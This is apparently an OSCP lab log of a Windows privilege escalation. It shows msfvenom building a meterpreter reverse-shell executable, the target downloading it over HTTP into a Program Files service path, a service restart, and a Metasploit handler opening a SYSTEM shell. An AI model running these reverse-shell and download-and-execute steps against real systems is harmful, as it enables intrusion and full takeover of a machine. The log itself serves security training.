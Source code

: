 ```
kali@kali:~/OSCP$ msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=192.168.45.241 LPORT=4444 > payload.exe; python3 -m http.server 80
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.208.220 - - [26/May/2023 07:02:56] "GET /payload.exe HTTP/1.1" 200 -
```

<br />

```
PS C:\Users\steve> Invoke-WebRequest -Uri http://192.168.45.241/payload.exe -OutFile "C:\Program Files\Enterprise Apps\Current.exe"
PS C:\Users\steve> Restart-Service GammaService
Restart-Service : Service 'GammaService (GammaService)' cannot be started due to the following error: Cannot start service
GammaService on computer '.'.
At line:1 char:1
+ Restart-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Restart-Service], Ser
   viceCommandException
    + FullyQualifiedErrorId : CouldNotStartService,Microsoft.PowerShell.Commands.RestartServiceCommand
```

<br />

```
kali@kali:~/OSCP$ msfconsole -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; run"


       =[ metasploit v6.3.10-dev                          ]
+ -- --=[ 2306 exploits - 1205 auxiliary - 412 post       ]
+ -- --=[ 968 payloads - 46 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use the edit command to open the 
currently active module in your editor
Metasploit Documentation: https://docs.metasploit.com/

[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
LHOST => tun0
LPORT => 4444
[*] Started reverse TCP handler on 192.168.45.241:4444 
[*] Sending stage (175686 bytes) to 192.168.208.220
[*] Meterpreter session 1 opened (192.168.45.241:4444 -> 192.168.208.220:55333) at 2023-05-26 07:03:10 -0400

meterpreter > shell
Process 2052 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

